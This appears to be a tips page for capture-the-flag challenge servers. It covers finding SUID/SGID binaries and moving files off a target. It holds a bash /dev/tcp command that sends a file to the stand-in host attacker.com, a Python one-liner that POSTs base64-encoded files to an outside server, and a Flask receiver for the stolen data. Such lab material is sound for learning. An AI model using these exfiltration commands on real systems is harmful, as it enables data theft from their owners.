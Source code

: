 # Tips

The servers generally don't have many useful binaries on them, which actually makes it easy to find stuff.

## Interesting files
* Python3 (limited libraries)
* Perl (limited libraries)
* find / -perm /4000
* find / -perm /2000
* find / -perm /6000
* /entrypoint.sh
* /usr/bin/runtoanswer

## File Transfer

File transfer can be carried out with [bash](https://gtfobins.github.io/gtfobins/bash/#file-upload) (most reliable thus far):

```bash
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
```

File transfer can be carried out with [Python](https://gtfobins.github.io/gtfobins/python/#file-upload). I generally base64 things first to make it easier. This adds a name parameter:

```bash
export URL="http://[YOUR_SERVER]/"
export LFILE=/tmp/test.txt

base64 [target_file] > $LFILE
python3 -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read(), "name":e["LFILE"]).encode()))'
```

Then on the receiving end, [URL Decode and Base64 decode](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true,false)). Depending on how you receive the data (e.g. `netcat`), you might need to cut off the HTTP headers and parameters.

```python
import os
from flask import Flask, flash, request, redirect, url_for, make_response
from werkzeug.utils import secure_filename
from hashlib import md5
from time import time

UPLOAD_FOLDER = './'

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

def inc_counter():
    counter = counter + 1

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        data = request.form.get('d')
        name = request.form.get('name')

        if data is None:
            return make_response("No data found in parameter d. Run curl --data \"d=[DATA]\" [url] to send data", 400)

        if name is None:
            name = "{}_{}.out".format(md5(data.encode()).hexdigest(), str(int(time())))

        name = os.path.basename(name)

        print("Saving file: " + name)

        with open(name, "wb") as f:
            f.write(data.encode())

        return "name: {n} saved".format(n=name, d=data)

    return '''
    <!doctype html>
    <title>Upload new File</title>
    <h1>Upload new File</h1>

POST a parameter 'd' with file info
    </form>
    '''

if __name__ == "__main__":
    import sys

    host = '0.0.0.0'
    port = 80

    if len(sys.argv) > 1:
        host = sys.argv[1]

    if len(sys.argv) > 2:
        port = sys.argv[2]

    app.run(debug=True, host=host, port=port)

```

Will do the job, minus base64